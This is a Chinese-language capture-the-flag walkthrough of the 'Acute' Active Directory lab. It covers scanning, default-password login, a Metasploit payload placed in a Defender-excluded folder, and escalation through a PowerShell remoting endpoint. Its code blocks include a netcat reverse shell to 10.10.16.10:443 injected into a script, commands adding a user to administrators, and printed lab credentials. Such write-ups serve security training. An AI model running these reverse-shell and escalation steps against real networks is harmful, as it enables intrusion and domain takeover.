


# 域渗透实战之 Acute - 先知社区

域渗透实战之 Acute

- - -

# 信息收集

## 端口扫描

使用 nmap 进行端口探测，发现只存在 443 端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113023-e8a2ab1a-ba68-1.png)

发现有一个 atsserver.acute.local 的证书

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113033-ee27e0f0-ba68-1.png)

访问主页，发现访问不到。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113043-f43e5f0a-ba68-1.png)

## 目录爆破

接着使用工具尝试目录爆破

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113052-f99b7190-ba68-1.png)

发现存在一个静态页面

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113204-249df110-ba69-1.png)

在最上角发现了一个 docx 文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113216-2bfb8bfc-ba69-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113228-3319d61e-ba69-1.png)  
下载之后，打开发现存在有两个员工入职页面的链接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113244-3c6279ec-ba69-1.png)

发现了一个默认密码。  
还发现了一个远程链接。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113303-48152e7e-ba69-1.png)

## 文件检查

接着对文件进行检查

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113312-4cf821b2-ba69-1.png)

发现了一个远程链接地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113319-5191a810-ba69-1.png)

访问之后，发现一个登录界面。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113328-567c06fe-ba69-1.png)

对于我们收集到的用户，进行默认密码尝试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113336-5b71a9e8-ba69-1.png)

## edavies 登录

找到一个可用用户，并成功进行登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113347-625f0958-ba69-1.png)

# 漏洞利用

## 生成木马

接着使用 msf 来生成木马。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113436-7f381d30-ba69-1.png)

建立监听

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113444-83cd221e-ba69-1.png)

接着执行木马文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113452-88f25d36-ba69-1.png)

## Bypas av

在 C:\\Utils 看起来是空目录，运行 with-force 显示一个隐藏文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113503-8f2e5d58-ba69-1.png)

```plain
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths
```

接着进行重新上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113542-a67899b0-ba69-1.png)

重新生成木马，进行上传。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113552-acdd01f6-ba69-1.png)

## msf 成功上线。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113601-b1e2a066-ba69-1.png)

## 容器/虚拟机

然后进行信息收集。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113608-b6136044-ba69-1.png)

## imonk 登录

发现这个系统里面有其它用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113616-babf7a74-ba69-1.png)

## WinPEAS

上传工具，进行自动化检索。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113622-beab6526-ba69-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113631-c41c3c6a-ba69-1.png)

## 屏幕共享

利用 msf 的屏幕共享进行查看主机信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113641-c999e6ec-ba69-1.png)

发现显示有一个密码。  
● 用户是 acute\\imonks，密码为“w3\_4R3\_th3\_f0rce.”。  
● edavies 正在尝试向 ATSSERVER 进行身份验证。  
● edavies 正在尝试使用 dc\_manage 上面提到的配置。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113648-cdc89114-ba69-1.png)

## Powershell 执行

创建一个用于 ATSSERVER 的用户

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113655-d2184a52-ba69-1.png)

然后进行尝试，发现没有成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113702-d67700f2-ba69-1.png)

接着进行测试。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113709-daac371e-ba69-1.png)

## 命令执行

接着尝试使用 powershell 来执行命令，成功获取 user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113718-dfd47224-ba69-1.png)

## jmorgan 登录

查看 Get-Alias 设置的内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113724-e3b0fd2c-ba69-1.png)

## 桌面文件

在桌面上发现 wm.ps1 脚本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113732-e7fbffb2-ba69-1.png)

发现脚本是一些用户信息。

```plain
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113749-f258a514-ba69-1.png)

# DC 信息

接着进行 DC 信息收集

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113758-f7ec544e-ba69-1.png)

尝试添加用户到管理组，没有成功。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113809-fdfe821c-ba69-1.png)

## 修改脚本

修改脚本来进行反弹 shell。

```plain
Invoke-Command -ScriptBlock { cat ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {C:\utils\nc64.exe -e cmd 10.10.16.10 443} -ComputerName Acute-PC01 -Credential $creds
Invoke-Command-ScriptBlock{((cat..\desktop\wm.ps1-Raw)-replace'Get-Volume','C:\utils\nc64.exe -e cmd 10.10.16.10 443')|sc-Path..\desktop\wm.ps1}-ComputerNameATSSERVER-ConfigurationNamedc_manage-Credential$cred
Invoke-Command -ScriptBlock { ((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume', 'C:\utils\nc64.exe -e cmd 10.10.16.10 443') | sc -Path ..\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((Get-Content "c:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $Creds
Invoke-Command -Computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {((cat ..\desktop\wm.ps1 -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add') | set-content -path  ..\desktop\wm.ps1} -credential $Creds
```

然后重启主机，进行测试，发现可用执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113824-06f44d98-ba6a-1.png)

## 反弹 shell

成功获取 shell

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113831-0b427bb8-ba6a-1.png)

## 获取密码

转存域用户信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113837-0ebe794a-ba6a-1.png)

接着进行下载到本地。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113844-12da29d4-ba6a-1.png)

## 获取哈希值

使用 secretsdump.py 来获取 hash。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113851-1729edd0-ba6a-1.png)

## hash 破解

接着使用 hashcat 来破解 hash。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113857-1b02f4a6-ba6a-1.png)

# awallace 登录

## 密码复用

接着继续登录用户，进行收集信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113905-1fe5595a-ba6a-1.png)

查看域用户组。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113913-249296d4-ba6a-1.png)

## 添加用户

在管理组里面添加用户，

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113921-296f0494-ba6a-1.png)

使用 powershell 来添加域用户。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113928-2d8abe06-ba6a-1.png)

接着上传 nc，来反弹 shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113936-3222678e-ba6a-1.png)

最后成功获取 shell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124113945-37c4211e-ba6a-1.png)

总结：  
该环境是在不同用户之间进行切换，一环套一环，然后最后获得管理员权限，并最后使用 msf 和 powershell 来进行渗透测试和权限提升。
